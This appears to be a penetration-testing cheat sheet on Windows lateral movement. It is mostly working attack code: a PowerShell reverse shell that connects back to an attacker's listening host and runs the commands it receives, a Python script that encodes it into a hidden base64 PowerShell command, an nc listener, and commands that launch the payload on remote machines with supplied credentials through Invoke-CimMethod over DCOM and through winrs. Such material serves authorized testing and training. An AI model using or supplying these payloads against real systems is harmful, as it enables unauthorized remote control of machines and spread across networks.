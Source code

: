 If a user isn't in "Remote Users" group, it may be inaccessible with options like rdp, winrm or psexec.
# Powershell command generation
Python script to encode powershell command:
```python
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("$(LHOST)",$(LPORT));$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```
```bash
python3 encode.py
```
```bash
nc -lvnp $(LPORT)
```
# Methods to call back to kali
## Invoke-CimMethod
On the target machine, run the following:
```powershell
$username = '$(USERNAME)';
```
```powershell
$password = '$(PASSWORD)';
```
```powershell
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
```
```powershell
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```
```powershell
$Options = New-CimSessionOption -Protocol DCOM
```
```powershell
$Session = New-Cimsession -ComputerName $(TARGET_COMPUTER_IP) -Credential $credential -SessionOption $Options
```
```powershell
$Command = '$(OUTPUT_OF_PYTHON_SCRIPT)';
```
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
## Winrs
```batch
winrs -r:$(HOSTNAME_OF_TARGET) -u:$(USERNAME) -p:$(PASSWORD)  "$(OUTPUT_OF_PYTHON_SCRIPT)"
```
